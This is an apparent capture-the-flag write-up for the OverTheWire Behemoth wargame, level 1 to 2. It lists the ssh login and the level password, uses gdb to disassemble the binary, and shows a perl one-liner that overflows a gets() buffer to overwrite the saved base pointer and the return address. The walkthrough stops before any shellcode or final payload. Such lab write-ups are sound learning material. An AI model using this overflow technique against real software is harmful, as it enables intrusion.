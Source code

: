 # Level 1 → Level 2

## Solution
```
ssh behemoth1@behemoth.labs.overthewire.org -p 2221
```
```
8JHFW9vGru
```
```
cd /behemoth ; ls -al
```
```
./behemoth1
```
```
13337
```

![](0.png)

strace and ltrace gave no information, and string search yielded nothing either.<br />
Therefore, we will look for existing functions and enter gdb:

```
nm ./behemoth1 | grep " T "
```

![](1.png)

```
gdb ./behemoth1
```
```
set disassembly-flavor intel
```
```
disas main
```

![](2.png)

* `0x44` bytes on the stack
* `0x43` bytes for user input (until $bp)
* there is no limit with `gets`, so we can overrite the return-address.

Let's check this:

```
r <<< $(perl -e 'print "A"x(0x43), "BBBB", "CCCC"')
```

![](3.png)

* `BBBB` - overrite the address of old $bp
* `CCCC` - overrite the address of the return value.



## Password for the next level:
```

```
